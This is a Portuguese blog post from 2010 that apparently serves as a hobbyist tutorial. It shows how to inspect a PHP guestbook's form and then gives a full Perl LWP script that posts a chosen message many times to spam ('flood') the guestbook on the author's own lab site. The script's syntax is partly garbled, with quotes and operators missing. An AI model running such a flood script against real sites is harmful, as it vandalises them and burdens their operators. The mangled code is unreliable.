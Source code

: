 ```yaml
---
layout: post
title: Floodando mural com Perl
date: 2010-11-29 15:32
author: obrerodrigues
comments: true
categories: [Hacking]
---
```


Porra, cada vez mais que eu uso perl, mas vejo o quanto de coisas que dá pra se fazer usando o mesmo, final de semana passado, começei a ver o que daria pra fazer com sites usando perl.

Usando a <a href="http://search.cpan.org/~gaas/libwww-perl-5.837/lib/LWP/UserAgent.pm" target="_blank">LWP::UserAgent</a>, o céu é o limite :P

Vou exemplificar aqui nesse post como esquematizar o ataque, e como usar o código, resolvi fazer isso depois de ver que matérias sobre Perl em português não são muito comuns ...

Basta saber o básico de HTML, saber também como as requisições funcionam, e um pouco de Perl pra entender o post.

Vou usar esse código aqui para simular um ataque: <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt</a>

É um mural de recados escrito em PHP, e que não precisa de um banco de dados, os recados são salvos num arquivo txt, o código é simples, vulnerável a XSS, mas isso não vem ao caso, ele só vai nos servir de exemplo, pra mostrar como a coisa funciona.

Primeiramente você deve colocar o mural hospedado em algum lugar, você pode instalar um servidor web com o PHP fácil no seu próprio computador, existem pacotes como o <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">XAMPP</a>, ou uma maneira mais fácil é você criar uma conta em algum desses servidores de hospedagem gratuitos com suporte a PHP que existem por ai a fora, sinceramente gosto muito do <a href="http://www.freewebhostingarea.com/" target="_blank">http://www.freewebhostingarea.com/</a>.

Caso queira, você pode usar o meu lab pessoal: <a href="http://ripper.eu5.org/labs/uploads/mural/index.php" target="_blank">http://ripper.eu5.org/labs/uploads/mural/index.php</a>, agora não garanto que esteja on-line pra sempre.

Ok, agora temos o mural funcionando, recados podem ser mandados para o site, basta pôr um nome, e-mail e a mensagem desejada...

Mas e se quisermos vandalizar o mural inseguro? Existem várias maneiras, mas vou te dizer como fazer isso com o perl.

Analizando o código, achei a seguinte linha interessante:
<p id="line1">FORM name=email2 onsubmit="return checkemail()" action=enviar_msg.php?a=confirma method=post
São os paramêtros do form que envia a mensagem para o mural de recados, vou destacar logo o que importa, o paramêtro "action" e o "method", nos diz que usando o método POST o form envia os dados para a página "enviar_msg.php?a=confirma".

Sim, mas e dai?

Com o perl podemos enviar requisições para o servidor, é o que vamos fazer.

Analisando ainda mais o código, observa-se que existem três inputs no form:

INPUT id=nome

INPUT id=email

INPUT id=message

O que nos importa são as ID's, é o que vai se usar no código perl para enviar o post.

Ok, agora sabemos que o form envia para a página enviar_msg.php junto com o paramêtro a=confirma, o nome, email e message.

Agora é que entra o perl, não vou explicar muito porque não tô afim, mas se você provavelmente entendeu até aqui, vai entender o código:

```

#!/usr/bin/perl

use LWP::UserAgent;

print Floodando com perl\n;

print Coloque sua mensagem: ;
my $msg = STDIN; chomp $msg;

print \nColoque o numero de vezes que a msg sera enviada: ;
my $count = STDIN; chomp $count;
my $begin = 1;

while ($begin = $count) {

$U=http://ripper.eu5.org/labs/uploads/mural/enviar_msg.php?a=confirma;
$lwp=LWP::UserAgent-new;
$res=$lwp  -post($U,[
'nome'     ='Brenn0',
'email'   ='whatever@gmail.com',
'mensagem' =$msg . $begin,
]);

$begin++;
print Mensagem numero  . $begin .  enviada...\n;
}

print \nFlood Completo!\n;
print Coded By Brenn0 (:;
exit 0;

# http://brenn0.wordpress.com

```

Básico, 32 linhas de código contando as que ficaram em branco, para um mal programador como eu, até que ficou organizadinho.

Atente para a parte do código onde se inicia o While e até onde ele termina, é ali que mora a parte legal, é onde se monta e se envia a requisição, a graça disso não é sair flodando todo e qualquer mural que se achar por ai, mas o poder que o perl dá em fazer algumas coisas, como automatizar tarefas repetitivas, claro que poderiamos ter feito isso de outras maneiras, como usando a extensão Imacs do firefox, mas nem sempre o mais fácil é mais legal :P

Eeee, fim de post, depois de um longo periodo de tempo sem nada, pensando bem não faz lá muito tempo, o mês é que foi longo, o cefet continua tentando me matar, e eu também continuo tentando o mesmo ...

Enfim, sono, preguiça e estudos, alcool, ociosidade, insanidade, são uma boa combinação (:
